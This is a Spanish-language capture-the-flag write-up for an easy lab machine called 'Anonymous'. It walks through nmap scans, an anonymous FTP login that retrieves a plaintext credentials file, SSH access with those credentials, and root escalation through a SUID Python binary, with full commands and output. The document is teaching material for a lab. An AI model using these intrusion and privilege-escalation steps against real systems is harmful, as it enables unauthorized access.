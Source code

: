 ```yaml
---
layout: post
title: Anonymous
subtitle: Plataforma MiraSoyRoot Dificultad Fácil
cover-img: /assets/img/anonymous.png
thumbnail-img: /assets/img/anonymous.png
share-img: /assets/img/anonymous.png
author: Elmili72
---
```


![Pequeñasmentirosas](https://github.com/user-attachments/assets/636ddab7-d953-489d-a335-bb77dc13674b)

## Escaneo general de puertos

Como siempre, para empezar realizamos un escaneo general de los puertos que pudieran estar abiertos en nuestra máquina.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:51:45 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Conocidos los puertos abiertos podemos realizar un escaneo específico para conocer los servicios y las versiones. En este caso los puertos 21 (FTP) y 22 (SSH). Cabe destacar que nos permite el inicio de sesión con  el usuario *anonymous*, por lo que podemos entrar al servicio y exfiltrar información relevante.

```bash
❯ nmap -sCV -p21,22 172.17.0.2 -oN target
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
|_drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:2c:f0:4d:f3:f1:66:9b:24:ac:ea:3a:b7:68:18:7c (ECDSA)
|_  256 be:1b:55:29:51:a5:94:3e:b0:fc:d9:b7:98:9d:06:c5 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio FTP

En la enumeración del FTP tenemos un archivo interesante que es *crendenciales.txt*. Que para nuestra suerte nos da crenciales como el propio nombre indica.

```bash
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elmili): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23955|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads
226 Directory send OK.
ftp> get credenciales.txt
local: credenciales.txt remote: credenciales.txt
229 Entering Extended Passive Mode (|||48922|)
150 Opening BINARY mode data connection for credenciales.txt (38 bytes).
100% |*******************************************************************************************************************************|    38      537.81 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (65.79 KiB/s)
```

```bash
❯ cat credenciales.txt
Usuario: yados
Contraseña: croissant
```

## Exploitación

Al no haber otra vulnerabilidad que nos permita lograr la intrusión probamos las credenciales directamente contra el SSH.
### Intrusión

Y estamos dentro del usuario *yados*.

```bash
❯ ssh yados@172.17.0.2
yados@172.17.0.2\'s password: 
Linux 7dec485919af 6.12.25-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.25-1kali1 (2025-04-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
yados@7dec485919af:~$ id
uid=1000(yados) gid=1000(yados) groups=1000(yados)
yados@7dec485919af:~$ whoami
yados
```

## Post-Explotación

Trar ver el archivo /etc/passwd y confirmar que no hay más usuarios para hacer pivoting pasamos directamente a la mejor parte de todo CTF. La escalada de privilegios :D.
### Escalada de Privilegios

No parece que exista la función *sudo*, por lo que directamente buscamos archivos con permisos *SUID*. Y vemos el binario */usr/local/bin/python*, así que vamos a explotarlo un poquito.

```bash
yados@7dec485919af:~$ find / -perm -4000 2>/dev/null
/usr/sbin/exim4
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
```

También vemos el binario sudo pero al no tener permisos de sudoers no podemos hacer nada con él a simple vista, por lo que continuamos con el binario de python.

```bash
yados@7dec485919af:~$ /usr/bin/sudo /bin/bash -p
[sudo] password for yados: 
yados is not in the sudoers file.
This incident has been reported to the administrator.
```

Para el que no esté familiarizado con este tipo de escalada recomiendo *GTFOBins*, que puede ser nuestro mejor amigo en estos casos. Y conseguimos el usuario *root* y leer el archivo *mirasoyroot.txt*.

```bash
yados@7dec485919af:~$ cd /tmp
yados@7dec485919af:/tmp$ mkdir privesc && cd privesc
yados@7dec485919af:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1000(yados) gid=1000(yados) euid=0(root) groups=1000(yados)
bash-5.2# cd /root
bash-5.2# cat mirasoyroot.txt 
felicidades hacker lo has conseguido, si eres de los 3 primeros en completar la maquina hablamé por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!

